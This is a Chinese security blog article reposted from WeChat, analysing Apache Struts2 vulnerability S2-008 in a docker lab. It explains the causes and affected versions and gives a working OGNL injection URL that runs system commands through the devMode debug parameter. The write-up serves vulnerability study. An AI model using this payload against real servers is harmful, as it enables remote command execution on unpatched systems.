 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/fWKwAW0JdeaTltSv_6aGMw)

![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif)  

> **文章来****源：**

**【Struts2 - 命令 - 代码执行漏洞分析系列】 S2-008** 

**漏洞概述**  
S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，正如 kxlzx 所提这种情况在生产环境中几乎不可能存在，因此就变得很鸡肋的，但我认为也不是绝对的，万一被黑了专门丢了一个开启了 debug 模式的应用到服务器上作为后门也是有可能的。

  
**漏洞成因**

主要利用对传入参数没有严格限制，导致多个地方可以执行恶意代码。

  
第一种情况其实就是 S2-007，在异常处理时的 OGNL 执行 第二种的 cookie 的方式，虽然在 struts2 没有对恶意代码进行限制，但是 java 的 webserver（Tomcat），对 cookie 的名称有较多限制，在传入 struts2 之前就被处理，从而较为鸡肋 第三种需要开启 devModedebug 模式  
例如在 devMode 模式下直接添加参数 ?debug=command&expression= 会直接执行后面的 OGNL 表达式.

  
**影响版本：**

Struts 2.1.0 - Struts 2.3.1

  
**环境搭建：**  
docker-compose up-d/docker-compose build  
启动靶场。

  
 ![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLib0bumFzNNm3zc9DLWJhk26icbYibkEerVm26gJicEs5KLVm21O72iadj6QyjoX4HlY7cXHRRYLdOhbFw/640?wx_fmt=png)   

靶场已经启动可以通过访问虚拟机 IP 进行访问

  
 ![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLib0bumFzNNm3zc9DLWJhk26E7R9xoqMP7EibhItpUcADJxXQkHb7AhIuia0Kr0ibiawrOt3eViaDAciap6Q/640?wx_fmt=png)   

选择 devmode,jsp

  
 ![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLib0bumFzNNm3zc9DLWJhk26WS3DqGQJZPoWL76jdp3saCDaynmwhG8SHaiashoSIfibEa7wGgiceSRyg/640?wx_fmt=png)   

命令执行：  

```
/devmode.action?debug=command&expression=(#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('ls').getInputStream()))
```

![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLib0bumFzNNm3zc9DLWJhk26IPXMdnKbVRW8K8l5KQPTaM7xFPlkcFoES93GFORVLicQPH0tn6JEveg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/3xxicXNlTXLicjiasf4mjVyxw4RbQt9odm9nxs9434icI9TG8AXHjS3Btc6nTWgSPGkvvXMb7jzFUTbWP7TKu6EJ6g/640?wx_fmt=jpeg)

推荐文章 ++++

![](https://mmbiz.qpic.cn/mmbiz_jpg/US10Gcd0tQFGib3mCxJr4oMx1yp1ExzTETemWvK6Zkd7tVl23CVBppz63sRECqYNkQsonScb65VaG9yU2YJibxNA/640?wx_fmt=jpeg)

*[【Struts2 - 命令 - 代码执行漏洞分析系列】 S2-001](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650496978&idx=3&sn=8e7b2b7caacf9bc393b2128989b69790&chksm=83ba3a36b4cdb3201dcdd5e50d2c6600d204f870601e8d63958588c0d6062d9648db7db7b9d9&scene=21#wechat_redirect)  

*[【Struts2 - 命令 - 代码执行漏洞分析系列】 S2-005](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650498316&idx=3&sn=0ae5551dafcef0e8926a580c834acb05&chksm=83ba00e8b4cd89feaae6e5aeb149fdde0f237231ef88506dbd070ac4aae1c013ad75510a7f17&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLib0FWIDRa9Kwh52ibXkf9AAkntMYBpLvaibEiaVibzNO1jiaVV7eSibPuMU3mZfCK8fWz6LicAAzHOM8bZUw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_gif/NZycfjXibQzlug4f7dWSUNbmSAia9VeEY0umcbm5fPmqdHj2d12xlsic4wefHeHYJsxjlaMSJKHAJxHnr1S24t5DQ/640?wx_fmt=gif)
